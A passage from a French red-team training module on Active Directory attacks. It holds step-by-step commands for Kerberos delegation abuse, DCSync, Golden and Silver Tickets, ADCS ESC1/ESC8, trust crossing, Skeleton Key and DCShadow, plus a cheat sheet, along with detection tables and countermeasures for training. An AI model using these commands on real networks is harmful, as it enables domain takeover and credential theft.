#### Abus : S4U2Self + S4U2Proxy

L'attaque utilise les extensions Kerberos **S4U2Self** et **S4U2Proxy** (Service for User).



```bash
# Avec Impacket (Python)
# Prérequis : hash du compte du service avec Constrained Delegation

# S4U2Self + S4U2Proxy
impacket-getST -spn cifs/dc01.redteam.lab \
    -impersonate Administrator \
    -dc-ip 192.168.56.10 \
    "redteam.lab"/srv01$:P@ssword123!

# Utilisation du service ticket
export KRB5CCNAME=Administrator.ccache
smbclient.py -k dc01.redteam.lab -no-pass
```

```powershell
# Avec Rubeus (C#)
Rubeus.exe s4u /user:srv01$ /rc4:aaaaaabbbbbbccccccddddddeeeeeeee \
    /impersonateuser:Administrator \
    /msdsspn:cifs/dc01.redteam.lab \
    /ptt

# Vérification
klist
dir \\dc01.redteam.lab\c$
```

#### S4U2Self sans forwardable (Rubeus)

```powershell
# Si le TGS retourné n'est pas forwardable
# Rubeus avec /altservice permet de modifier le SPN cible
Rubeus.exe s4u /user:srv01$ /rc4:aaaaaabbbbbbccccccddddddeeeeeeee \
    /impersonateuser:Administrator \
    /msdsspn:cifs/dc01.redteam.lab \
    /altservice:host,ldap \
    /ptt
```

### 10.4 Resource-Based Constrained Delegation (RBCD)

#### Principe

Avec RBCD (Windows Server 2012+), le **service cible** (ressource) définit qui peut déléguer vers lui, via l'attribut `msDS-AllowedToActOnBehalfOfOtherIdentity`.



#### Abus RBCD

```powershell
# Étape 1 : Ajouter une machine au domaine
# Option A : Avec des credentials (si politique autorise)
New-MachineAccount -MachineName "FAKECOMPUTER" -Password (ConvertTo-SecureString "hack123!" -AsPlainText -Force)

# Option B : Si on a GenericWrite/GenericAll sur un objet ordinateur existant

# Étape 2 : Configurer RBCD sur la cible
# Attribuer msDS-AllowedToActOnBehalfOfOtherIdentity
$sid = Get-DomainComputer FAKECOMPUTER -Properties objectSid
$rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$rsdb = New-Object byte[] ($rsd.BinaryLength)
$rsd.GetBinaryForm($rsdb, 0)
Set-DomainObject -Identity DC01 -Set @{"msDS-AllowedToActOnBehalfOfOtherIdentity"=$rsdb}
```

```bash
# Avec Impacket
# Étape 1 : Créer un compte machine
python3 addcomputer.py -computer-name 'FAKECOMPUTER$' \
    -computer-pass 'Hacked123!' \
    "redteam.lab"/alice:'Passw0rd!'

# Étape 2 : Modifier la RBCD sur la cible
python3 rbcd.py -delegate-from 'FAKECOMPUTER$' \
    -delegate-to 'DC01$' \
    -action write \
    "redteam.lab"/alice:'Passw0rd!'

# Étape 3 : S4U2Proxy avec le compte machine
python3 getST.py -spn cifs/dc01.redteam.lab \
    -impersonate Administrator \
    -dc-ip 192.168.56.10 \
    "redteam.lab"/'FAKECOMPUTER$':'Hacked123!'

# Étape 4 : Utilisation
export KRB5CCNAME=Administrator.ccache
smbclient.py -k dc01.redteam.lab -no-pass
```

### 10.5 BloodHound pour la délégation

```cypher
// Trouver les machines avec Unconstrained Delegation
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c.name

// Trouver les machines avec Constrained Delegation
MATCH (c:Computer)-[:AllowedToDelegate]->(t:Computer) 
RETURN c.name, t.name

// Trouver les chemins RBCD
MATCH (c:Computer)-[:AddAllowedToAct]->(t:Computer)
RETURN c.name, t.name

// Trouver le plus court chemin vers Domain Admin via délégation
MATCH p = shortestPath(
    (u:User)-[:MemberOf*0..1]->()
    -[:AdminTo|GenericAll|GenericWrite|AllowedToDelegate*1..]->(c:Computer)
)
WHERE u.name STARTS WITH "ALICE"
RETURN p
```

### 10.6 TP guidé : Unconstrained Delegation → Admin

#### Objectif
Abuser d'un serveur configuré en Unconstrained Delegation pour capturer un TGT d'admin.

#### Étape 1 : Identifier les serveurs vulnérables

```bash
# PowerView
Get-DomainComputer -Unconstrained -Properties name,dNSHostName

# Résultat attendu : SRV01.redteam.lab a Unconstrained Delegation
```

#### Étape 2 : Forcer un admin à se connecter

```bash
# PrinterBug pour forcer une authentification du DC vers SRV01
python3 printerbug.py "redteam.lab"/alice:"Passw0rd!"@192.168.56.10 192.168.56.20
```

#### Étape 3 : Capture du TGT

```powershell
# Sur SRV01 (en tant qu'admin local)
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit

# Identifier le TGT de l'admin (dc01$ ou utilisateur admin)
# Les fichiers .kirbi sont dans le répertoire courant
```

#### Étape 4 : Réutilisation

```powershell
# Charger le TGT capturé
mimikatz.exe "kerberos::ptt [0;XXXXXX].kirbi" exit

# Vérifier l'accès
klist
dir \\dc01.redteam.lab\c$
```

---

## 11. TP Synthèse

### 11.1 Scénario : From User → Forest Admin

#### Contexte



**Point de départ :**
- Utilisateur `alice` (mot de passe compromis)
- Droits : `alice@redteam.lab` — Domain Users standard

**Objectif final :**
- Contrôle total de `corp.contoso.com` (Enterprise Admin)

#### Déroulement

```mermaid
graph TD
    A[alice@redteam.lab] -->|1. BloodHound enum| B[GenericAll sur bob.admin]
    B -->|2. ACL Abuse| C[Changer mot de passe bob.admin]
    C -->|3. Bob est Domain Admin| D[DCSync → KRBTGT Hash]
    D -->|4. Golden Ticket| E[Accès SRV01]
    E -->|5. ADCS Abuse ESC1| F[Certificat Administrator]
    F -->|6. DCSync| G[Hash DC01$]
    G -->|7. Trust SIDHistory| H[Golden Ticket with ExtraSID]
    H -->|8. Trust Crossing| I[Accès corp.contoso.com]
    I -->|9. DCSync| J[Forest Admin]
```

### 11.2 Pas à pas détaillé

#### Phase 1 : Reconnaissance et ACL Abuse

```bash
# 1. Énumération BloodHound
bloodhound-python -u alice -p 'Passw0rd!' -d redteam.lab -dc dc01.redteam.lab -ns 192.168.56.10 -c all

# 2. Identifier le chemin : alice → GenericAll → bob.admin
# BloodHound query:
# MATCH p = shortestPath((u:User)-[:GenericAll]->(target:User))
# WHERE u.name = "ALICE@REDTEAM.LAB" RETURN p
```

```powershell
# 3. Réinitialiser le mot de passe de bob.admin
# Via PowerView
Set-DomainUserPassword -Identity "bob.admin" -AccountPassword (ConvertTo-SecureString "Pwn3d!123" -AsPlainText -Force)
```

#### Phase 2 : DCSync et Golden Ticket

```bash
# 4. DCSync via bob.admin
impacket-secretsdump "redteam.lab"/"bob.admin":"Pwn3d!123"@192.168.56.10

# 5. Forger un Golden Ticket
HASH_KRBTGT="5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f"
SID_DOMAIN="S-1-5-21-111111111-111111111-111111111"

ticketer.py -nthash $HASH_KRBTGT \
    -domain-sid $SID_DOMAIN \
    -domain redteam.lab \
    -user Administrator \
    -groups 512,513,518,519 \
    -duration 10

export KRB5CCNAME=Administrator.ccache
```

#### Phase 3 : ADCS Abuse (ESC1)

```bash
# 6. Énumération ADCS
certipy find -k -target dc01.redteam.lab -dc-ip 192.168.56.10 -stdout

# 7. Demande de certificat ESC1 pour Administrator
certipy req -k -ca redteam-DC01-CA \
    -template VulnTemplate \
    -target dc01.redteam.lab \
    -upn 'administrator@redteam.lab'

# 8. Extraction du hash
certipy auth -pfx administrator.pfx -domain redteam.lab -dc-ip 192.168.56.10
```

#### Phase 4 : Trust Crossing vers corp.contoso.com

```bash
# 9. Récupérer le SID de corp.contoso.com
# Via un compte existant dans contoso
# OU via BloodHound si les deux forêts sont découvertes

SID_CONTOSO="S-1-5-21-222222222-222222222-222222222"

# 10. Forger un ticket avec ExtraSID (Enterprise Admins de contoso)
ticketer.py -nthash $HASH_KRBTGT \
    -domain-sid $SID_DOMAIN \
    -domain redteam.lab \
    -user Administrator \
    -extra-sid "${SID_CONTOSO}-519" \
    -groups 512,513,518,519 \
    -duration 10

export KRB5CCNAME=Administrator.ccache

# 11. Accès à la forêt cible
crackmapexec smb dc02.corp.contoso.com -k --use-kcache
```

#### Phase 5 : Forest Admin

```bash
# 12. DCSync sur la forêt cible
impacket-secretsdump -k dc02.corp.contoso.com -no-pass

# Objectif atteint : hash KRBTGT + admin de corp.contoso.com
```

### 11.3 Tableau ATT&CK complet

| Technique | ID MITRE | Tactic | Outil utilisé |
|-----------|----------|--------|-------------|
| Account Discovery | T1087.002 | Discovery | BloodHound |
| Permission Groups Discovery | T1069.002 | Discovery | BloodHound |
| Domain Trust Discovery | T1482 | Discovery | BloodHound, nltest |
| ACL Abuse | T1098 | Persistence | PowerView, dacledit.py |
| Account Manipulation | T1098 | Persistence | Set-DomainUserPassword |
| Valid Accounts | T1078 | Defense Evasion | — |
| DCSync | T1003.006 | Credential Access | secretsdump |
| Golden Ticket | T1558.001 | Credential Access | ticketer.py, Mimikatz |
| Silver Ticket | T1558.002 | Credential Access | ticketer.py |
| Steal or Forge Kerberos Tickets | T1558 | Credential Access | Mimikatz, Rubeus |
| SID-History Injection | T1134.005 | Defense Evasion | Mimikatz, ticketer.py |
| Trust Abuse | T1484 | Privilege Escalation | ticketer.py /extra-sid |
| Unconstrained Delegation | T1558.003 | Credential Access | Mimikatz, Rubeus |
| Constrained Delegation | T1558.003 | Credential Access | getST.py, Rubeus |
| Resource-Based Delegation | T1558.003 | Credential Access | rbcd.py, getST.py |
| ADCS Abuse (ESC1) | T1649 | Credential Access | Certipy, Certify |
| ADCS Abuse (ESC8) | T1557.001 | Credential Access | ntlmrelayx, PetitPotam |
| Skeleton Key | T1098 | Persistence | Mimikatz |
| DCShadow | T1207 | Persistence | Mimikatz |
| AdminSDHolder Backdoor | T1098 | Persistence | PowerView |
| NTLM Relay | T1557.001 | Credential Access | ntlmrelayx |
| PetitPotam | T1187 | Credential Access | PetitPotam.py |

### 11.4 Heat map ATT&CK

```mermaid
format: markdown
title: Heat Map — J2 M9 AD Advanced

| Tactic | Technique | Score (1-5) | Couverture |
|--------|-----------|------------|------------|
| TA0006 Credential Access | T1558.001 Golden Ticket | ⭐⭐⭐⭐⭐ | TP complet |
| TA0006 Credential Access | T1558.002 Silver Ticket | ⭐⭐⭐⭐ | TP guidé |
| TA0006 Credential Access | T1649 ADCS Abuse | ⭐⭐⭐⭐⭐ | TP complet |
| TA0006 Credential Access | T1003.006 DCSync | ⭐⭐⭐⭐⭐ | TP complet |
| TA0006 Credential Access | T1557.001 NTLM Relay | ⭐⭐⭐⭐ | TP guidé |
| TA0003 Persistence | T1098 ACL Abuse | ⭐⭐⭐⭐⭐ | TP complet |
| TA0003 Persistence | T1098 AdminSDHolder | ⭐⭐⭐⭐ | TP guidé |
| TA0003 Persistence | T1098 Skeleton Key | ⭐⭐⭐⭐ | TP guidé |
| TA0003 Persistence | T1207 DCShadow | ⭐⭐⭐ | Démo |
| TA0004 Privilege Escalation | T1484 Trust Abuse | ⭐⭐⭐⭐ | TP guidé |
| TA0005 Defense Evasion | T1134.005 SIDHistory | ⭐⭐⭐⭐ | TP guidé |
| TA0008 Lateral Movement | T1558.003 Delegation | ⭐⭐⭐⭐ | TP guidé |
```

#### Légende

| Score | Couverture |
|-------|------------|
| ⭐⭐⭐⭐⭐ | TP complet, script pas à pas, cas réel |
| ⭐⭐⭐⭐ | TP guidé, technique maîtrisée |
| ⭐⭐⭐ | Démonstration, concepts compris |
| ⭐⭐ | Théorie, sans pratique |
| ⭐ | Mentionné, non pratiqué |

### 11.5 Matrice de détection

| Attaque | Event ID Windows | Log source | Détection |
|---------|-----------------|------------|-----------|
| ACL Abuse | 5136 (modification DACL) | Security | Changer owner/ACL anormal |
| AdminSDHolder | 5136, 5141 | Security | Modification AdminSDHolder |
| Golden Ticket | 4768, 4624 | Security | TGT durée > 10h, SID extra |
| Silver Ticket | 4769, 4624 | Security | TGS sans AS-REQ |
| Diamond Ticket | 4768, 4776 | Security | Anomalie dans claims |
| Skeleton Key | 4672, 4776 | Security, LSASS | Accès LSASS anormal |
| DCShadow | 4662, 4742 | Security, Replication | Nouveau DC non autorisé |
| Trust Abuse | 4768, 4624 | Security | SIDHistory inattendu |
| ADCS ESC1 | 4886, 4887 | Security, ADCS | Certificat avec alt principal |
| ADCS ESC8 | 4624, 4887 | Security, ADCS, IIS | Auth NTLM vers certsrv |
| Delegation | 4768, 4769 | Security | S4U2Self, S4U2Proxy anormal |

### 11.6 Synthèse des prérequis



### 11.7 Checklist de l'attaquant

- [ ] Étape 0 : Obtenir un pied dans le domaine (user compromis)
- [ ] Étape 1 : BloodHound — cartographier les relations AD
- [ ] Étape 2 : Identifier les ACL abusables (GenericAll, WriteDACL, etc.)
- [ ] Étape 3 : Élever vers un compte privilégié (ACL → Admin)
- [ ] Étape 4 : DCSync — récupérer KRBTGT hash
- [ ] Étape 5 : Golden / Diamond Ticket — persistance domaine
- [ ] Étape 6 : ADCS — ESC1 / ESC8 pour élever davantage
- [ ] Étape 7 : Skeleton Key / AdminSDHolder — backdoor
- [ ] Étape 8 : Délégation — abuser des services pour lateral movement
- [ ] Étape 9 : Trust — traverser vers d'autres forêts
- [ ] Étape 10 : Forest Admin — objectif final

### 11.8 Contre-mesures générales

| Domaine | Mesure | Priorité |
|---------|--------|----------|
| **ACL** | Auditer régulièrement les ACL avec BloodHound | Haute |
| **ACL** | Principe du moindre privilège | Haute |
| **KRBTGT** | Changer le mot de passe KRBTGT tous les 180 jours (×2) | Haute |
| **KRBTGT** | Utiliser `Reset-ADKRBKey` pour rotation | Haute |
| **ADCS** | Désactiver les templates vulnérables (ESC1) | Haute |
| **ADCS** | Activer l'extension du sujet (Subject Name) | Haute |
| **ADCS** | Désactiver l'authentification NTLM sur /certsrv | Moyenne |
| **ADCS** | Activer HTTPS uniquement + EPA | Moyenne |
| **LSASS** | Activer Credential Guard (Virtual Secure Mode) | Haute |
| **LSASS** | Activer PPL pour LSASS | Haute |
| **LSASS** | Limiter les droits DEBUG aux administrateurs | Moyenne |
| **Monitoring** | Centraliser les logs Security dans SIEM | Haute |
| **Monitoring** | Règles Sigma pour Golden/Silver/Diamond Ticket | Haute |
| **Délégation** | Éviter l'Unconstrained Delegation | Haute |
| **Délégation** | Préférer RBCD (Resource-Based) | Moyenne |
| **Trust** | Auditer les SIDHistory | Haute |
| **Trust** | Valider les trusts avant mise en place | Moyenne |
| **AdminSDHolder** | Surveiller les modifications de l'AdminSDHolder | Haute |
| **Reboot** | Planifier des redémarrages réguliers des DCs | Baisse (skeleton key) |

---

## 12. Annexes

### 12.1 Références bibliographiques

| Ressource | URL |
|-----------|-----|
| BloodHound | https://github.com/BloodHoundAD/BloodHound |
| PowerView | https://github.com/PowerShellMafia/PowerSploit |
| Mimikatz | https://github.com/gentilkiwi/mimikatz |
| Impacket | https://github.com/fortra/impacket |
| Certipy | https://github.com/ly4k/Certipy |
| Certify | https://github.com/GhostPack/Certify |
| Rubeus | https://github.com/GhostPack/Rubeus |
| PKINITtools | https://github.com/dirkjanm/PKINITtools |
| PetitPotam | https://github.com/topotam/PetitPotam |
| KrbRelayUp | https://github.com/Dec0ne/KrbRelayUp |
| AD Security | [référence supprimée] |
| HackTricks AD | https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html |
| The Hacker Recipes | https://www.thehacker.recipes/ad/recon/ |

### 12.2 Commandes essentielles — Aide-mémoire

```bash
# === Reconnaissance ===
bloodhound-python -u <user> -p <pass> -d <domain> -dc <dc> -c all
nltest /domain_trusts
Get-ADTrust -Filter *
# === ACL Abuse ===
# PowerView  Get-ObjectAcl -Identity <user>
Add-ObjectAcl -TargetSamAccountName <target> -PrincipalSamAccountName <user> -Rights All
# Impacket  dacledit.py -action write -target <DN> -principal <DN> -grant GenericAll <domain>/<user>

# === AdminSDHolder ===
Get-Acl -Path "AD:CN=AdminSDHolder,CN=System,DC=<domain>,DC=<tld>"
Add-ObjectAcl -TargetName "AdminSDHolder" -TargetADServer "CN=System,..." -PrincipalSamAccountName <user> -Rights All
Set-DomainUserPassword -Identity <user> -AccountPassword (ConvertTo-SecureString <pass> -AsPlainText -Force)

# === DCSync ===
impacket-secretsdump <domain>/<user>:<pass>@<dc>

# === Golden Ticket ===
ticketer.py -nthash <hash> -domain-sid <sid> -domain <domain> -user Administrator -groups 512,513,518,519
mimikatz.exe "kerberos::golden /domain:<domain> /sid:<sid> /user:Administrator /krbtgt:<hash> /id:500 /groups:512,513,518,519 /ptt"

# === Silver Ticket ===
ticketer.py -nthash <machine_hash> -domain-sid <sid> -domain <domain> -user Administrator -groups 512 -duration 10
mimikatz.exe "kerberos::golden /domain:<domain> /sid:<sid> /target:<server> /service:CIFS /rc4:<hash> /user:Administrator /id:500 /groups:512 /ptt"

# === Diamond Ticket ===
Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /krbkey:<hash>

# === ADCS ESC1 ===
certipy find -u <user> -p <pass> -dc-ip <dc> -vulnerable -stdout
certipy req -u <user> -p <pass> -ca <ca> -template <template> -target <dc> -upn <admin>@<domain>
certipy auth -pfx <cert>.pfx -domain <domain> -dc-ip <dc>

# === ADCS ESC8 ===
impacket-ntlmrelayx -t http://<dc>/certsrv/certfnsh.asp -smb2support --adcs --template <template>
python3 PetitPotam.py <relay_ip> <dc_ip>

# === Skeleton Key ===
mimikatz.exe "privilege::debug" "misc::skeleton" "exit"

# === DCShadow ===
mimikatz.exe "privilege::debug" "lsadump::dcshadow /object:<DN> /attribute:memberOf /value:<group_DN>" "lsadump::dcshadow /push"

# === Trust Attack ===
ticketer.py -nthash <krbtgt_hash> -domain-sid <source_sid> -domain <source_domain> -user Administrator -extra-sid "<target_sid>-519" -groups 512,513,518,519

# === Unconstrained Delegation ===
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"
mimikatz.exe "kerberos::ptt <ticket>.kirbi"

# === Constrained Delegation ===
impacket-getST -spn <service>/<target> -impersonate Administrator <domain>/<machine>$:<pass>

# === RBCD ===
python3 rbcd.py -delegate-from <attacker_machine>$ -delegate-to <target>$ -action write <domain>/<user>:<pass>
python3 getST.py -spn <service>/<target> -impersonate Administrator <domain>/<attacker_machine>$:<pass>
```

### 12.3 Liens MITRE ATT&CK

| ID | Nom | Lien |
|----|-----|------|
| T1098 | Account Manipulation | https://attack.mitre.org/techniques/T1098/ |
| T1222 | File and Directory Permissions Modification | https://attack.mitre.org/techniques/T1222/ |
| T1558.001 | Golden Ticket | https://attack.mitre.org/techniques/T1558/001/ |
| T1558.002 | Silver Ticket | https://attack.mitre.org/techniques/T1558/002/ |
| T1558.003 | Kerberos Delegation | https://attack.mitre.org/techniques/T1558/003/ |
| T1558.004 | AS-REP Roasting | https://attack.mitre.org/techniques/T1558/004/ |
| T1207 | DCShadow | https://attack.mitre.org/techniques/T1207/ |
| T1484 | Domain Policy Modification | https://attack.mitre.org/techniques/T1484/ |
| T1003.006 | DCSync | https://attack.mitre.org/techniques/T1003/006/ |
| T1134.005 | SID-History Injection | https://attack.mitre.org/techniques/T1134/005/ |
| T1187 | Forced Authentication | https://attack.mitre.org/techniques/T1187/ |
| T1557.001 | LLMNR/NBT-NS Poisoning and SMB Relay | https://attack.mitre.org/techniques/T1557/001/ |
| T1649 | Steal or Forge Authentication Certificates | https://attack.mitre.org/techniques/T1649/ |

---

> **Note importante** : Toutes les techniques présentées dans ce module sont destinées à des tests d'intrusion autorisés dans le cadre de la directive **NIS2 (UE 2022/2555)** et du référentiel **MITRE ATT&CK**. L'utilisation non autorisée de ces techniques est illégale et passible de poursuites pénales.
